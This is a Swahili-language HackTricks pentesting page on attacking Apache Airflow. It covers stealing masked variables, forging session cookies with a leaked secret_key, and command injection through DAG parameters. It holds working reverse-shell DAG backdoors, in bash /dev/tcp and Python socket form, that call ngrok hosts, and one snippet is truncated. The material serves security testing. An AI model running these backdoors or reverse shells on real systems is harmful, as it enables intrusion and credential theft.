 # Usalama wa Apache Airflow

<details>

{% hint style="success" %}
Jifunze na zoea Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Timu Nyekundu Mtaalam (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na zoea Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Timu Nyekundu Mtaalam (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

## Taarifa Msingi

[**Apache Airflow**](https://airflow.apache.org) inatumika kama jukwaa la **kuorodhesha na kupanga mabomba ya data au mifumo ya kazi**. Neno "kuorodhesha" katika muktadha wa mabomba ya data inamaanisha mchakato wa kupanga, kuratibu, na kusimamia mifumo ya kazi ya data yenye utata inayotoka vyanzo mbalimbali. Lengo kuu la mabomba haya ya data yaliyoorodheshwa ni kutoa seti za data zilizosindika na zinazoweza kutumiwa. Seti hizi za data hutumiwa sana na programu nyingi, ikiwa ni pamoja na lakini sio mdogo kwa zana za ujasusi wa biashara, sayansi ya data na mifano ya ujifunzaji wa mashine, yote ambayo ni msingi wa utendaji wa programu za data kubwa.

Kimsingi, Apache Airflow itakuruhusu **kupanga utekelezaji wa nambari wakati kitu** (tukio, cron) **kinapotokea**.

## Maabara ya Kienyeji

### Docker-Compose

Unaweza kutumia **faili ya usanidi ya docker-compose kutoka** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) kuzindua mazingira kamili ya docker ya apache airflow. (Ikiwa uko kwenye MacOS hakikisha kutoa angalau 6GB ya RAM kwa docker VM).

### Minikube

Njia moja rahisi ya **kuendesha apache airflow** ni kuendesha **na minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Mpangilio wa Airflow

Airflow inaweza kuhifadhi **taarifa nyeti** katika mpangilio wake au unaweza kupata mipangilio dhaifu:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Kabla ya kuanza kushambulia Airflow unapaswa kuelewa **jinsi ruhusa zinavyofanya kazi**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Mashambulizi

### Uorodheshaji wa Konsoli ya Wavuti

Ikiwa una **upatikanaji wa konsoli ya wavuti** unaweza kupata au kufikia baadhi au yote ya taarifa zifuatazo:

* **Vipimo** (Taarifa nyeti za kawaida zinaweza kuhifadhiwa hapa)
* **Uunganisho** (Taarifa nyeti za kawaida zinaweza kuhifadhiwa hapa)
* Pata kwenye `http://<airflow>/connection/list/`
* [**Mpangilio**](./#airflow-configuration) (Taarifa nyeti kama **`secret_key`** na nywila zinaweza kuhifadhiwa hapa)
* Orodhesha **watumiaji na majukumu**
* **Msimbo wa kila DAG** (ambao unaweza kuwa na taarifa za kuvutia)

### Kupata Thamani za Vipimo

Vipimo vinaweza kuhifadhiwa kwenye Airflow ili **DAGs** ziweze **kufikia** thamani zao. Ni sawa na siri za majukwaa mengine. Ikiwa una **ruhusa za kutosha** unaweza kuzipata kwenye GUI kwenye `http://<airflow>/variable/list/`.\
Kwa chaguo-msingi, Airflow itaonyesha thamani ya kipimo kwenye GUI, hata hivyo, kulingana na [**hii**](https://marclamberti.com/blog/variables-with-apache-airflow/) inawezekana kuweka **orodha ya vipimo** ambavyo **thamani** yake itaonekana kama **nyota** kwenye **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Hata hivyo, **thamani** hizi bado zinaweza **kupatikana** kupitia **CLI** (unahitaji kupata ufikivu wa DB), utekelezaji wa **DAG wa kiholela**, **API** kupitia kufikia mwisho wa vipimo (API inahitaji kuwa imewezeshwa), na **hata GUI yenyewe!**\
Kupata thamani hizo kutoka kwenye GUI tu **chagua vipimo** unavyotaka kufikia na **bonyeza Matendo -> Kuuza**.\
Njia nyingine ni kufanya **bruteforce** kwa **thamani iliyofichwa** kwa kutumia **kuchuja utafutaji** mpaka upate:

![](<../../.gitbook/assets/image (152).png>)

### Kupandisha Hadhi ya Mamlaka

Ikiwa mpangilio wa **`expose_config`** umewekwa kuwa **Sahihi**, kutoka kwa **jukumu la Mtumiaji** na **juu yake** wanaweza **kusoma** **mpangilio kwenye wavuti**. Katika mpangilio huu, **`secret_key`** inaonekana, ambayo inamaanisha mtumiaji yeyote mwenye hii inayofaa wanaweza **kuunda kuki iliyosainiwa yao wenyewe kujifanya kuwa akaunti ya mtumiaji mwingine yeyote**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Mlango wa Nyuma wa DAG (RCE katika mfanyakazi wa Airflow)

Ikiwa una **upatikanaji wa kuandika** mahali ambapo **DAGs zimehifadhiwa**, unaweza tu **kuunda moja** ambayo itakutumia **kifaa cha kudhibitiwa kwa nyuma.**\
Tafadhali kumbuka kuwa kifaa hiki cha kudhibitiwa kwa nyuma kitatekelezwa ndani ya **kontena ya mfanyakazi wa airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Mlango Nyuma wa DAG (RCE katika Airflow scheduler)

Ikiwa unaweka kitu kiwe **kinatekelezwa katika mizizi ya nambari**, wakati wa kuandika hii, itatekelezwa na **scheduler** baada ya sekunde chache baada ya kuwekwa ndani ya folda ya DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Uundaji wa DAG

Ikiwa utafanikiwa **kuambukiza kifaa ndani ya kikundi cha DAG**, unaweza kuunda **skripti mpya za DAG** katika folda ya `dags/` na zitakuwa **zimejirudisha katika kifaa zingine** ndani ya kikundi cha DAG.

### Uingizaji wa Msimbo wa DAG

Unapotekeleza DAG kutoka kwa GUI unaweza **kupitisha vigezo** kwake. Kwa hivyo, ikiwa DAG haiko sawa kimaandishi inaweza kuwa **dhaifu kwa Uingizaji wa Amri.** Hapo ndipo ilipotokea katika CVE hii: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Kila unachohitaji kujua kuanza **kutafuta uingizaji wa amri katika DAGs** ni kwamba **parameta** zina **fikiwa** na msimbo **`dag_run.conf.get("jina_la_param")`**.

Zaidi ya hayo, dhaifu sawa inaweza kutokea na **vibadilishaji** (kumbuka kwamba ukiwa na mamlaka ya kutosha unaweza **kudhibiti thamani ya vibadilishaji** katika GUI). Vibadilishaji vinapata **kwa**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
If they are used for example inside a a bash command, you could perform a command injection.

<details>

{% hint style="success" %}
Jifunze na zoea AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na zoea GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya GCP (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
